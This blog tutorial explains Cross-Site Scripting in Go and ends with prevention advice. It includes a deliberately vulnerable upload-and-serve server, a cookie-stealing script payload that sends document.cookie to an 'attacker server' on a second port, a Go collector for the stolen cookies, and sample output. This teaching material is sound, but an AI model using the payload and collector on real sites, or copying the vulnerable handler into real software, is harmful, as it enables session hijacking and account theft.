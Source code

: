 +++
author = "penguinit"
title = "What is XSS: Learn with Golang"
date = "2024-03-17"
description = "In today's post, we'll learn about Cross-Site Scripting (XSS), build a simple web server with Golang, and see how it can be attacked."
tags = [
"xss", "browser", "golang"
]
categories = [
"web", "language"
]
+++

## Overview

In today's post, we'll learn about Cross-Site Scripting (XSS), build a simple web server with Golang, and see how it can be attacked.

## What is XSS

Cross-Site Scripting (XSS) is a vulnerability that can occur when user-supplied input is not validated or properly escaped. An attacker can use this vulnerability to inject malicious scripts into a web page, which can then be executed in another user's browser, allowing them to hijack the user's session, tamper with the website, and more.

![Untitled](images/Untitled.png)

## Example of an XSS attack

Let's create a simple example of creating a web server with Golang and fetching sensitive information.

### A server that uploads and displays specific content

```go
package main

import (
	"fmt"
	"io"
	"net/http"
	"os"
)

func uploadFileHandler() http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		if r.Method == "POST" {
			// 1. extract the file
			file, _, err := r.FormFile("uploadedFile")
			if err != nil {
				http.Error(w, err.Error(), http.StatusBadRequest)
				return
			}
			defer file.Close()

			// 2. Read the file contents
			fileBytes, err := io.ReadAll(file)
			if err != nil {
				http.Error(w, err.Error(), http.StatusInternalServerError)
				return
			}

			// 3. save the file contents to a temporary file on the server
			err = os.WriteFile("uploadedScript.html", fileBytes, 0644)
			if err != nil {
				http.Error(w, err.Error(), http.StatusInternalServerError)
				return
			}
			
			fmt.Fprintf(w, "File uploaded successfully")
		}
	}
}

func serveContentHandler() http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		http.ServeFile(w, r, "uploadedScript.html")
	}
}

func main() {
	http.HandleFunc("/", uploadFileHandler())
	http.HandleFunc("/content", serveContentHandler())

	fmt.Println("Server started at :8080")
	http.ListenAndServe(":8080", nil)
}
```
You can upload scripts for XSS attacks with the `POST /` function and deliver the uploaded content to the user with the `GET /content` function.

### Uploaded XSS attack script

```jsx
// xss.html

<script>
   function sendCookies() {
   var xhr = new XMLHttpRequest();
   xhr.open("GET", "http://localhost:8081/steal?cookie=" + encodeURIComponent(document.cookie), true);
   xhr.send();
}

   sendCookies();
</script>
```
When the script is executed, it sends the cookie information of the user executing the script to the attacker server on port 8081.

### Attacker Server

The attacker server receives the cookie information through the XSS attack script.

```go
package main

import (
	"fmt"
	"log"
	"net/http"
)

func main() {
	http.HandleFunc("/steal", func(w http.ResponseWriter, r *http.Request) {
		enableCors(&w)

		// Get the "cookie" value from the query parameter.
		cookie := r.URL.Query().Get("cookie")
		// Print to the console.
		fmt.Printf("Stealed Cookie: %s\n", cookie)

		w.WriteHeader(http.StatusOK)
		fmt.Fprint(w, "OK")
	})

	log.Println("Starting on attacker server port 8081...")
	log.Fatal(http.ListenAndServe(":8081", nil))
}

func enableCors(w *http.ResponseWriter) {
	(*w).Header().Set("Access-Control-Allow-Origin", "*")
}
```

### Actual result

1. upload formFile using curl

```
curl -F "uploadedFile=@path/to/xss.html" http://localhost:8080/
```

2. execute GET /content with a specific user ([http://localhost:8080/content](http://localhost:8080/content))
3. steal cookie information from the attacker's server

```
2024/03/17 17:02:10 Started on attacker server port 8081...
Stealed Cookie: Authorization=t1823ski!3a;
```

In the example above, the XSS attack script is inserted and when the customer accesses the page, the attacker server gets the cookie-related information.

## Preventing XSS

To proactively prevent XSS attacks, you can consider several methods.

1. Input validation: You should perform validation on all input you receive from users, for example, only email addresses should be accepted in the email address field, and where names are entered, you can limit the length or validate for certain characters.
2. Output encoding: When outputting user input to a web page, use HTML encoding to convert potentially dangerous characters, such as script tags, into safe forms. For example, it converts `<` to `&lt;` and `>` to `&gt;`.
3. Content Security Policy (CSP): With a CSP, you can restrict the origin of scripts that can be executed on a web page.  → [What is CSP, learn more with Golang](/en/post/202403/5/)
4. Cookie settings: Using the `HttpOnly` and `Secure` flags, you can help protect your user's session from XSS attacks.
   1. HttpOnly: Cookies with this flag set are not accessible via JavaScript, which prevents cookie hijacking via XSS attacks.
   2. `Secure`: Cookies with this flag set will only be sent over HTTPS.

## Summary

XSS attacks can be attempted in various ways besides the examples above. Attack scripts can be placed in specific fields stored in the DB, or if you have a feature that outputs the user's input as it is, you can perform unwanted scripts directly without considering the above XSS attacks.

In this post, we've discussed what XSS is and how it can be attacked using a simple Golang example.